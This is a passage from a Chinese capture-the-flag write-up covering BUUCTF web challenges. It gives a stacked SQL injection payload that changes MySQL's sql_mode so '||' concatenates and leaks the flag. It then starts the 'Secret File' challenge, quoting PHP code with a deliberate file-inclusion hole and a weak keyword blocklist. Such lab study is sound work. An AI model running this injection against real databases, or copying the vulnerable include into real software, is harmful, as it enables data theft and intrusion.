 `* || flag` 本身就是个错误的写法, 通配符无法表示真假性

最后再说一下, payload 的关键点在于 `*`, 而后面的数字不影响执行的结果, 改成其它值也是可以的

**第二种解法**

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这是在已经知道了 SQL 语句中含有 `||` 的前提下, 通过更改 mysql 的配置来改变 `||` 的功能

光看单词也很容易理解, 将 `||` 功能从逻辑运算符更改为拼接字符串

```sql
mysql> set sql_mode=pipes_as_concat;
Query OK, 0 rows affected (0.00 sec)

mysql> select 1||2||3||4||5;
+---------------+
| 1||2||3||4||5 |
+---------------+
| 12345         |
+---------------+
1 row in set (0.00 sec)
```

这样之后执行 `select 1 || flag from Flag` 的时候, 也会把 flag 显示出来 (拼接)

![](assets/202208211603291-1700743077637185.png)

## [极客大挑战 2019]Secret File(文件包含，php://filter伪协议，strstr())

右键源代码和跳转绕了一大圈...

抓包得到地址如下

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php
```

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```
